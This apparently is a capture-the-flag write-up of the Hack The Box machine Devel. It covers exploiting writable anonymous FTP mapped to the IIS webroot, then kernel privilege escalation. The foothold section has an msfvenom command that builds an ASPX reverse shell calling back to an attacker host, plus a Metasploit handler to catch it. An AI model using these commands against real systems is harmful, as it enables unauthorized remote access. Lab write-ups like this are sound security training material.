






| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Key techniques** | Anonymous FTP write, ASPX reverse shell via IIS, kernel privilege escalation |

---

## TL;DR

Devel is a classic beginner Windows box. Anonymous FTP is writable and
maps directly to the IIS webroot, so I upload an ASPX reverse shell and
trigger it through the web server for a foothold as `iis apppool\web`.
The host runs an old, unpatched Windows kernel, so a local exploit takes
me straight to `NT AUTHORITY\SYSTEM`.

---

## Recon

```bash
nmap -Pn -sV -sC 10.10.10.5
```


Two ports: FTP (21) with anonymous login allowed, and HTTP (80) on IIS.

---

## Enumeration

### FTP

Anonymous login works, and the FTP root turns out to be the same directory
IIS serves — the default IIS files (`iisstart.htm`, `welcome.png`) are
sitting right there:



### HTTP

Port 80 is just the default IIS landing page:



That combination — **writable FTP mapped to the webroot** — means anything
I upload over FTP is reachable (and executable) through the web server.

---

## Foothold

IIS executes `.aspx`, so I built an ASPX reverse shell with msfvenom:

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.23 LPORT=1234 -f aspx > shell.aspx
```


Uploaded it over anonymous FTP:


Set up the matching handler and browsed to `http://10.10.10.5/shell.aspx`
to execute it:

```bash
msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.14.23
set LPORT 1234
run
```



---

## Privilege Escalation

Upgraded to a Meterpreter session and checked `sysinfo` — the box is
running a very old Windows build with an unpatched kernel:



Ran Metasploit's local exploit suggester, which flagged several kernel
elevation-of-privilege modules for this build:



One of the suggested kernel exploits landed a `NT AUTHORITY\SYSTEM` shell:



Read both flags:


---

## Lessons Learned

- Anonymous FTP is worth checking on every box — here it was not only
  enabled but **writable and mapped to the webroot**.
- When an upload directory is also served by the web server, file-type
  matters: IIS will happily execute an uploaded `.aspx`.
- Old, unpatched Windows kernels are a one-command privesc — the exploit
  suggester does the triage for you.

---

## Remediation

- Disable anonymous FTP, and never map an FTP upload directory to a
  web-executable path.
- Restrict which extensions IIS will execute in upload locations.
- Keep the OS patched — the kernel exploit used here was fixed years ago.

---

## Tools used

- `nmap`
- `ftp`
- Metasploit (`msfvenom`, `multi/handler`, `local_exploit_suggester`)

---

**See also:** [Windows privilege escalation methodology](https://github.com/debasjan/security-portfolio/blob/main/methodology/windows-privesc.md)

---

**Machine:** [Hack The Box — Devel](https://www.hackthebox.com/machines/devel)

---

**Also on GitHub:** [this write-up in my security portfolio (methodology & cheat sheets)](https://github.com/debasjan/security-portfolio/blob/main/writeups/hackthebox/devel.md)
